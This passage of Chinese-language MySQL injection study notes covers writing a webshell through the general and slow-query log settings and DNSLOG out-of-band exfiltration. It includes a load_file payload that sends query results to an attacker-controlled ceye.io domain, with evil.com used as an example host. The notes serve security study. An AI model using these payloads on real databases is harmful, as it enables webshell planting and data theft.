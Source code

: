 ```
//请求日志
mysql> set global general_log_file = '/var/www/html/1.php';
mysql> set global general_log = on;
//慢查询日志
mysql> set global slow_query_log_file='/var/www/html/2.php'
mysql> set global slow_query_log=1;
//还有其他很多日志都可以进行利用
...
```

之后我们在让数据库执行满足记录条件的恶意语句即可。

限制：

- 权限够，可以进行日志的设置操作
- 知道目标目录的绝对路径

## DNSLOG带出数据

什么是DNSLOG？简单的说，就是关于特定网站的DNS查询的一份记录表。若A用户对B网站进行访问/请求等操作，首先会去查询B网站的DNS记录，由于B网站是被我们控制的，便可以通过某些方法记录下A用户对于B网站的DNS记录信息。此方法也称为OOB注入。

如何用DNSLOG带出数据？若我们想要查询的数据为：`aabbcc`，那么我们让mysql服务端去请求`aabbcc.evil.com`，通过记录`evil.com`的DNS记录，就可以得到数据：`aabbcc`。

> ![image-20231207224824174](../../_Attachment/mysql注入及Trick小结.assets/image-20231207224824174.png)
>
> 引自：[Dnslog在SQL注入中的实战](https://www.anquanke.com/post/id/98096)

payload: `load_file(concat('\\\\',(select user()),'.xxxx.ceye.io\xxxx'))`

应用场景：

